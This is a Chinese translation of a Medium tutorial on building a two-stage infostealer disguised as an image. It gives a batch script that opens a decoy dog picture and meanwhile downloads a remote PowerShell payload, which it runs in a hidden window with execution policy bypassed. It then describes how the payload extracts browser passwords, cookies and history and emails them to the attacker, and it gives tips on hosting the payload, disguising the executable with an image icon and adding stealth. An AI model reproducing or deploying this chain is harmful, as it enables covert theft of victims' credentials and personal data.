

# 仅凭一张“图片”就能黑掉任何人

> 原文：<https://medium.com/nerd-for-tech/hack-anyone-with-just-an-image-4cb387ba6cb9?source=collection_archive---------0----------------------->



几天前，我的朋友向我展示了他制作的脚本，他称之为勒索软件恶意软件，但这是一个批处理脚本，只会将文件的扩展名重命名为任何随机扩展名，只会使该文件对系统未知。当我们单击解密批处理文件时，它会将文件恢复到它们原来的扩展名。总的来说，这个项目非常棒，因为它向我介绍了批量脚本的惊人世界，但我肯定不会把这个脚本称为勒索软件恶意软件。

随着我对批处理脚本世界兴趣的增长，我开始阅读大量关于批处理脚本和如何使用它的博客，很快我偶然发现了这本由 [samratashok](https://github.com/samratashok) 撰写的名为 [nishang](https://github.com/samratashok/nishang) 的超级 shell 脚本指南。

我尝试过构建这个脚本，这个软件在执行时会从受害者那里窃取所有浏览器的 cookies、密码、历史记录和其他有用的数据，并将这些数据发送到您配置的电子邮件地址。随着本教程的深入，我会解释代码是如何工作的。

## 批处理脚本

这是批处理文件的脚本，这是我们想要在受害者 PC 上执行的脚本。

```
pushd %temp%powershell Invoke-WebRequest "https://static.onecms.io/wp-content/uploads/sites/24/2021/04/26/GettyImages-185743593-2000.jpg" -Outfile "doggy.jpg"doggy.jpg powershell Invoke-WebRequest -Uri site hosting your powershell script -OutFile .\power.ps1; start PowerShell -windowstyle hidden -NoProfile -ExecutionPolicy Bypass -file "power.ps1"
```

代码解释:

使用`pushd`,我们将工作目录改为临时目录，这样在目标系统中执行时会留下更少的痕迹。

在第二行中，我们从网上下载了一张狗的图片，并保存在一个名为 doggy.jpg 的输出文件中

然后我们执行下载的图像，欺骗受害者认为这只是一个普通的图像

但是，在第 4 行，我们正在下载我们的原始有效负载 Powershell 脚本，并将其保存在 power.ps1 中，我们稍后将研究这个 PowerShell 脚本将做什么。

最后但同样重要的是，我们使用一些开关执行这个 power.ps1 脚本。

`-Windowstyle hidden`将在隐藏窗口中运行 PowerShell 脚本

`-NoProfile`将在没有任何配置文件的情况下执行脚本，它将忽略并执行脚本，即使它需要管理员权限

`-ExecutionPolicy Bypass`顾名思义，它会绕过任何执行限制(如果设置了的话)

`-file`指定脚本文件的位置

## Powershell 脚本

该脚本托管在 Github [这里](https://github.com/Real0xdom/HWI/blob/main/power.ps1)。这个 Powershell 脚本将做的是从我的[毒液项目](https://github.com/Real0xdom/venom)中下载黑客浏览器软件，黑客浏览器是一些安全研究人员的开源项目，旨在从几乎所有的浏览器中提取保存的密码和数据。这是一个小软件，可以完美地完成这项工作，我已经尝试使用 nirsoft 工具，但他们的最新更新不将密码存储在文本文件中，这就是为什么我决定改用黑客浏览器。

脚本的第二部分是电子邮件，您需要在 PowerShell 脚本中添加电子邮件 Id 和密码，可能是 outlook 帐户。

如果脚本匹配所有的依赖项，它将从几乎所有的浏览器中提取所有的密码和数据，并将其转换为 zip 文件，然后将它发送到脚本中指定的电子邮件地址。

## 托管 PowerShell 脚本

这是一个分为两个阶段的恶意软件第一阶段是当批处理文件在受害者 pc 上执行时，第二阶段是当它需要 PowerShell 脚本进行下一步操作以使我们的攻击成功时。

这就是为什么我们需要在某个地方托管我们的 PowerShell 脚本，现在你可以在你的个人电脑上托管 PowerShell 脚本，但是想象一下受害者在晚上或两三天后点击有效负载的场景，我们不能冒险让我们的脚本在半夜不可用，不是吗？所以我建议你把你的脚本放在一个安全的地方，但它应该是 24/7 可用的。现在 Github 托管是一个选项，但我不建议这样做，所以我会把这部分留给你来决定。

当一切就绪并运行时，在批处理文件中插入 PowerShell 脚本，并将批处理文件转换为可执行文件。在修改了一些选项并把图标改成图片的图标后，你就可以开始了。如果你有任何建议让它变得更隐秘，你可以试试，然后告诉我。

项目:【https://github.com/Real0xdom/HWI 

免责声明:仅将此信息用于教育目的，我不鼓励你做任何傻事！

感谢你的阅读，祝你今天过得愉快。